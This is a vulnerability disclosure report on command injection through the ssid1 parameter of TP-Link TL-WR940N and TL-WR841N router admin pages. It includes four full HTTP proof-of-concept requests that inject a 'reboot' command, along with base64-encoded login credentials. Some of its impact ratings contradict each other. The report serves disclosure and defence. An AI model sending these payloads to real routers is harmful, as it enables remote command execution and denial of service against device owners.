





# TP-Link TL-WR940N/TL-WR841N Wireless Router /userRpm/WlanNetworkRpm Command Injection Vulnerability

## 1 Basic Information

- Vulnerability Type: Command Injection
- Vulnerability Description: In TP-Link TL-WR940N V2/V4 and TL-WR841N V8/V10 wireless router,there is a command injection vulnerability. Its /userRpm/WlanNetworkRpm component implements a security vulnerability in processing the ssid1 GET parameter, allowing remote attackers to use the vulnerability to submit special requests, resulting in command injection, which can lead to the execution of arbitrary system commands.
- Device model:
  - TP-Link TL-WR940N V2/V4、TP-Link TL-WR841N V8/V10

## 2. Vulnerability Value

- Maturity of Public Information: None
- Order of Public Vulnerability Analysis Report: None
- Stable reproducibility: yes
- Vulnerability Score (refer to CVSS)
  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)
- Exploit Conditions
  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory
- Exploit Effect
  - Denial of Service
  - Remote Code Execution (RCE)

## 3. PoC

The PoC of TL-WR940NV4 is as follows:

```http
GET /JFYRUKOAPAQZRKOC/userRpm/WlanNetworkRpm.htm?ssid1=TP-LINK_000012||reboot;&ssid2=TP-LINK_0000_2&ssid3=TP-LINK_0000_3&ssid4=TP-LINK_0000_4&region=101&band=0&mode=6&chanWidth=2&channel=15&rate=83&ap=1&broadcast=2&brlssid=&brlbssid=&addrType=1&keytype=1&wepindex=1&authtype=1&keytext=&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/JFYRUKOAPAQZRKOC/userRpm/WlanNetworkRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TL-WR940NV2 is as follows:

```http
GET /UJOGPJXBZUFEBUDB/userRpm/WlanNetworkRpm.htm?ssid1=;reboot;&ssid2=TP-LINK_0000_2&ssid3=TP-LINK_0000_3&ssid4=TP-LINK_0000_4&region=101&band=0&mode=5&chanWidth=1&channel=9&rate=59&ap=1&broadcast=2&brlssid=&brlbssid=&addrType=1&keytype=1&wepindex=1&authtype=1&keytext=&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/WlanNetworkRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TL-WR841N V8 is as follows:

```http
GET /userRpm/WlanNetworkRpm.htm?ssid1=a;reboot&ssid2=TP-LINK_000000_2&ssid3=TP-LINK_000000_3&ssid4=TP-LINK_000000_4&region=101&band=0&mode=3&chanWidth=2&channel=15&rate=71&ap=1&broadcast=2&brlssid=&brlbssid=&addrType=1&keytype=1&wepindex=1&authtype=1&keytext=&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/WlanNetworkRpm.htm
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TL-WR841N V10 is as follows:

```http
GET /GWIDNCGBKQNKXJXB/userRpm/WlanNetworkRpm.htm?ssid1=a;reboot;&ssid2=TP-LINK_0000_2&ssid3=TP-LINK_0000_3&ssid4=TP-LINK_0000_4&region=101&band=0&mode=5&chanWidth=2&channel=15&rate=71&ap=1&broadcast=2&brlssid=&brlbssid=&addrType=1&keytype=1&wepindex=1&authtype=1&keytext=&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/GWIDNCGBKQNKXJXB/userRpm/WlanNetworkRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

## 4. Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/WlanNetworkRpm component implements a security vulnerability in processing the ssid GET parameter,and the ssid1 parameter key was put into the stack without being checked, resulting in a denial of service. Attackers take advantage of this vulnerability to concatenate ssid1 parameters to execute commands, resulting in a command injection vulnerability, which can lead to the execution of arbitrary system commands.

The firmware simulation process and interface are as follows:







After sending the PoC, the target service did not verify the input, executed the service reboot command then crashed, and tried to restart the system, resulting in a denial of service.





## 5. The basis for judging as a 0-day vulnerability

Search the WlanNetworkRpm keyword in the NVD database, and found no vulnerabilities; search the parameter ssid1 keyword in the NVD database, and found three vulnerabilities, namely CVE-2021-46319, CVE-2021-46315, CVE-2020-27600.These vulnerabilities have different interfaces.The interfaces are: SetMasterWLanSettings interface under HNAP1, www/hnap1/control/setwizardconfig, HNAP1/control/SetMasterWLanSettings, so they are not same as this vulnerability.